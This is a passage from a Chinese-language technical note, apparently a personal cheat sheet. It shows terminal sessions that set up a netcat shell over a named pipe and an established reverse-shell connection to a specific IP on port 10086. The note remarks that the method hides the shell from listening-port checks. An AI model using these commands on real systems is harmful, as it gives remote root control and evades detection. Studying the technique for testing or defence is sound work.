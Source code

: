 这种方式target不监听，但是可以在ESTABLISHED中查看，增加了reverse shell隐蔽性。

```
root in /etc/apt λ ss -ltp   
State           Recv-Q          Send-Q                   Local Address:Port                          Peer Address:Port          Process                                      
LISTEN          0               128                            0.0.0.0:ssh                                0.0.0.0:*              users:(("sshd",pid=1102,fd=3))              
LISTEN          0               244                          127.0.0.1:postgresql                         0.0.0.0:*              users:(("postgres",pid=1368,fd=4))          
LISTEN          0               80                           127.0.0.1:mysql                              0.0.0.0:*              users:(("mysqld",pid=1319,fd=20))           
LISTEN          0               128                               [::]:ssh                                   [::]:*              users:(("sshd",pid=1102,fd=4))              
LISTEN          0               244                              [::1]:postgresql                            [::]:*              users:(("postgres",pid=1368,fd=3))          
LISTEN          0               511                                  *:http                                     *:*              users:(("apache2",pid=6759,fd=4),("apache2",pid=6758,fd=4),("apache2",pid=6757,fd=4),("apache2",pid=6756,fd=4),("apache2",pid=6755,fd=4),("apache2",pid=1504,fd=4))

root in /etc/apt λ ss -tp | grep 10086
ESTAB 0      0      192.168.80.200:46410  8.135.0.171:10086 users:(("bash",pid=7504,fd=2),("bash",pid=7504,fd=1),("bash",pid=7504,fd=0),("sh",pid=7503,fd=2),("sh",pid=7503,fd=1),("sh",pid=7503,fd=0))
```

==由于nc.openbsd没有`-e`或`-c`参数所以需要使用具名管道符。来实现reverse shell==

```
#server，只会将结果发送给pipe或是nc client两者之一
#第一次先将bash prompt发送给nc client
#随后收到nc client的命令传给pipe，bash读取pipe内容执行返回给nc client
root in /tmp λ cat pipe | bash -i 2>&1 | nc -l -p 10086 > pipe
#等价
root in /tmp λ bash -i 2>&1 < pipe | nc -l -p 10086 > pipe

#client
root in ~ λ nc 8.135.0.171 10086
root@ubuntu18:/tmp# ls
ls
AliyunAssistClientSingleLock.lock
bash
CmsGoAgent.pid
_MEIM3fcpz
pipe
systemd-private-e8db9b6344cd44dab469a9dc4418af69-apache2.service-uCdsZV
systemd-private-e8db9b6344cd44dab469a9dc4418af69-chrony.service-SvSjRc
systemd-private-e8db9b6344cd44dab469a9dc4418af69-systemd-resolved.service-qO23qK
root@ubuntu18:/tmp# 
```

测试，只会发送给pipe或nc client两者之一

```
#server
root in /tmp λ ls | nc -l -p 10086 > pipe
root in /tmp λ cat pipe

#client
root in /etc/apt λ nc 8.135.0.171 10086
AliyunAssistClientSingleLock.lock
CmsGoAgent.pid
pipe
pp
systemd-private-ec12ca395b2146af94778c470c5409e3-apache2.service-cl58WH
systemd-private-ec12ca395b2146af94778c470c5409e3-chrony.service-FKTalK
systemd-private-ec12ca395b2146af94778c470c5409e3-systemd-resolved.service-Vvvc0
```